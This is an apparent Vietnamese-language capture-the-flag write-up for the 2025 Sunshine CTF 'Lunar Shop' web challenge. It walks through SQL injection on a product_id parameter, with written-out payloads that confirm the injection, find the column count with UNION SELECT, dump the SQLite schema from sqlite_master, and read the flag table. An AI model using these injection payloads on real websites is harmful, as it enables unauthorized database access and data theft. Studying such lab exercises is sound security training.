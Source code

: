 # 2025 Sunshine CTF - Lunar Shop

Mô tả của challege:
```
We have amazing new products for our gaming service! Unfortunately we don't sell our unreleased flag product yet !

Fuzzing is NOT allowed for this challenge, doing so will lead to IP rate limiting!
```

Nhấp vào một trong các sản phẩm tại `/products` sẽ đưa bạn đến một url như `https://meteor.sunshinectf.games/product?product_id=1`

Nhìn đoạn URL tôi thử test SQLi: `?product=1'` trang web trả về lỗi `[ Error occured. --> unrecognized token: "';" ]`. Dòng `unrecognized token` cho tôi biết trang web sử dụng `SQLite`. 

Tôi tiếp tục test: 
```
?product_id=1 or 1=1--
```

![alt text](image.png)

```
?product_id=0 union select 1,2,3,4--
```
![alt text](image-1.png)
Trang web trả về một kết quả duy nhất với 1, 2, 3 và 4 ở những vị trí mong đợi. Tiến hành dump `schema` của toàn bộ bảng trong `SQLite`
```
?product_id=0 union select sql,2,3,4 from sqlite_master where type='table'--
```
![alt text](image-2.png)

Thấy được table `flag` có hai cột là `id` và `flag`, tiến hành đọc cột flag:
```
?product_id=0 union select flag,2,3,4 from flag--
```
![alt text](image-3.png)

Thành công lấy được `flag`.